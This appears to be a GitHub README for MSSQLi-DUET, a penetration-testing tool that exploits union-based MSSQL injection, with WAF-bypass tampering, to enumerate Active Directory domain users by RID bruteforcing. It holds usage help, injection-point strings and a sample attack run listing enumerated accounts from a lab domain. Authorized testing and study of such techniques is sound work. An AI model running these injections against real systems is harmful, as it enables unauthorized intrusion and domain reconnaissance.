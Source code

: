 # MSSQLi-DUET - MSSQL Injection-based Domain User Enumeration Tool

SQL injection script for MSSQL that extracts domain users from an Active Directory environment based on RID bruteforcing. Supports various forms of WAF bypass techniques through the implementation of SQLmap tamper functions. Additional tamper functions can be incorporated by the user depending on the situation and environment.

Currently only support union-based injection. Planning to add other techniques later. More samples and test cases are required to fully test tool's functionality, feedback and comments are greatly welcomed and appreciated!

## Usage
### Script Help
```python
python3 mssqli-duet.py -h
usage: mssqli-duet.py [-h] -i INJECTION [-e ENCODING] -t TIME_DELAY -rid
                      RID_RANGE [-ssl SSL] -p PARAMETER [-proxy PROXY]
                      [-o OUTFILE] -r REQUEST_FILE

MSSQLi-DUET - MSSQL (Injection-based) Domain User Enumeration Tool

optional arguments:
  -h, --help            show this help message and exit
  -i INJECTION, --injection INJECTION
                        Injection point. Provide only the data needed to
                        escape the query.
  -e ENCODING, --encoding ENCODING
                        Type of encoding: unicode, doubleencode, unmagicquotes
  -t TIME_DELAY, --time_delay TIME_DELAY
                        Time delay for requests.
  -rid RID_RANGE, --rid_range RID_RANGE
                        Hypenated range of RIDs to bruteforce. Ex: 1000-1200
  -ssl SSL, --ssl SSL   Add flag for HTTPS
  -p PARAMETER, --parameter PARAMETER
                        Vulnerable parameter
  -proxy PROXY, --proxy PROXY
                        Proxy connection string. Ex: 127.0.0.1:8080
  -o OUTFILE, --outfile OUTFILE
                        Outfile for username enumeration results.
  -r REQUEST_FILE, --request_file REQUEST_FILE
                        Raw request file saved from Burp

Prepare to be enumerated!
```

### How to use
After identifying a union-based SQL injection in an application, copy the raw request from Burp Suit using the 'copy to file' feature.

Pass the saved request to DUET with the `-r` flag. Specify the vulnerable parameter and well as the point of injection. As an example, if the parameter "element" is susceptible to SQL injection, `-p` will be "element". DUET will build out all the SQL injection queries automatically, but specification for the initial injection needs to be provided. Meaning, if the injection occurs because of a single apostrophe after the parameter data, this is what would be specified for the `-i` argument. 
```
Ex: test' 
    test'))
    test")"
```

### Example
```
python3 mssqli-duet.py -i "carbon'" -t 0 -rid 1000-1200 -p element -r testrequest.req -proxy 127.0.0.1:8080
[+] Collected request data:
Target URL = http://192.168.11.22/search2.php?element=carbon
Method = GET
Content-Type = applcation/x-www-form-urlencoded


[+] Determining the number of columns in the table...
        [!] Number of columns is  3
[+] Determining column type...
        [!] Column type is null
[+] Discovering domain name...
        [+] Domain = NEUTRINO
[+] Discovering domain SID...
S-1-5-21-4142252318-1896537706-4233180933-

[+] Enumerating users...
NEUTRINO\HYDROGENDC01$
NEUTRINO\DnsAdmins
NEUTRINO\DnsUpdateProxy
NEUTRINO\HELIUM$
NEUTRINO\BORON$
NEUTRINO\BERYLLIUM$
NEUTRINO\aeinstein
NEUTRINO\Organization Management
NEUTRINO\Recipient Management
NEUTRINO\View-Only Organization Management
NEUTRINO\Public Folder Management
```

## References 
https://blog.netspi.com/hacking-sql-server-procedures-part-4-enumerating-domain-accounts/